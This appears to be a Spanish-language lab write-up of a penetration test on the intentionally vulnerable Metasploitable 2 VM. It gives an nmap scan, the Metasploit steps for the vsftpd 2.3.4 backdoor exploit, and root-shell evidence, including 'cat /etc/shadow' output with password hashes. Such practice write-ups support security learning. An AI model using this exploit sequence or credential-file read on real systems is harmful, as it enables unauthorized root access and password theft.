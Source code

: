 # Análisis de Metasploitable 2

Este documento detalla los hallazgos durante la auditoría de seguridad de la maquina virtual Metasploitable 2.

## Fase 1: Reconocimiento y Escaneo

El objetivo de esta fase fue identificar los servicios y puertos abiertos en la maquina para determinar posibles vectores de ataque.

---

### Herramientas Utilizadas
* **Nmap:** Para el escaneo de puertos y descubrimiento de servicios.

### Comando Ejecutado
Se utilizó un escaneo TCP completo para enumerar todos los puertos, detectar versiones de servicios y ejecutar scripts básicos de reconocimiento.
```bash
nmap -p- -sV -sC -oN nmap_metasploitable 192.168.3.45

Resultados Clave y Análisis de Vulnerabilidades
El escaneo reveló múltiples servicios con vulnerabilidades conocidas y configuraciones inseguras. Los más críticos son:

Puerto 21/tcp (FTP): Se identificó la versión vsftpd 2.3.4, la cual es conocida por tener una vulnerabilidad de puerta trasera. Además, permite el inicio de sesión anónimo.

Puerto 23/tcp (Telnet): El servicio Telnet está expuesto, lo que representa un riesgo alto ya que transmite credenciales en texto plano.

Puerto 1524/tcp (bindshell): Se encontró un shell de root escuchando en este puerto, lo que permite acceso administrativo inmediato y sin autenticación a la máquina.

Conclusión Inicial
La superficie de ataque de la máquina es extremadamente grande. Basado en los hallazgos, el servicio de FTP (vsftpd 2.3.4) y el bindshell en el puerto 1524 son los puntos de entrada más prometedores para la siguiente fase: Explotación.


## Fase 2: Explotación

### Objetivo
El objetivo de esta fase fue ganar acceso al sistema explotando la vulnerabilidad `vsftpd 2.3.4` identificada durante el reconocimiento.

### Herramientas Utilizadas
* **Metasploit Framework (msfconsole):** Para buscar, configurar y ejecutar el exploit.

### Pasos Realizados
La explotación se llevó a cabo siguiendo una metodología clara:
1.  **Búsqueda:** Se inició `msfconsole` y se utilizó el comando `search vsftpd 2.3.4` para localizar el módulo de exploit adecuado.
2.  **Selección:** Se seleccionó el exploit `exploit/unix/ftp/vsftpd_234_backdoor` con el comando `use 3`.
3.  **Configuración:** Se configuró la dirección IP del objetivo con el comando `set RHOSTS 192.168.3.45`.
4.  **Ejecución:** Se lanzó el ataque con el comando `exploit`, el cual fue exitoso.

### Resultados y Evidencia
Se obtuvo una sesión de shell interactiva con los máximos privilegios del sistema (`root`). Esto se confirmó ejecutando comandos como `whoami` y `cat /etc/shadow` directamente en la máquina comprometida.

**Prueba de Acceso:**

Se confirmó el control total del sistema ejecutando los siguientes comandos, que demuestran privilegios de `root` y acceso a archivos sensibles.

```bash
whoami
root

ls -la /root/
total 76
drwxr-xr-x 13 root root 4096 Sep  4 22:29 .
drwxr-xr-x 21 root root 4096 May 20  2012 ..
-rw-------  1 root root  324 Sep  4 22:29 .Xauthority
lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
-rw-r--r--  1 root root 2227 Oct 20  2007 .bashrc

cat /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
